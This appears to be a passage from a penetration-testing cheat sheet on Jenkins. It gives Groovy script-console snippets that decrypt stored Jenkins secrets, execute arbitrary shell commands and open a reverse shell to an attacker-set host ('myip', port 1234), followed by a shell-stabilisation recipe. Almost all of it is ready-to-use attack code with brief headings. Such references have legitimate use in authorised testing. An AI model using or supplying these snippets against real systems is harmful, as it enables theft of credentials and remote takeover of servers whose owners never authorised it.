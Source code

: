 ```java
println(hudson.util.Secret.decrypt("{...}"))
```


Command execution from Groovy
-----------------------------

```java
def proc = "id".execute();
def os = new StringBuffer();
proc.waitForProcessOutput(os, System.err);
println(os.toString());
```

Multiline shell command that can include pipes, redirects and stuff:

```java
def proc = ['bash', '-c', '''your_long_command_here'''].execute();
```

Automate it using [this script](./rce/jenkins_rce_admin_script.py).

Reverse shell from Groovy
-------------------------

```java
String host="myip";
int port=1234;
String cmd="/bin/bash";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

```

I'll leave this reverse shell tip to recover a fully working PTY here in case anyone needs it:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
^Z bg
stty -a
echo $TERM
stty raw -echo
fg
export TERM=...
stty rows xx columns yy
```
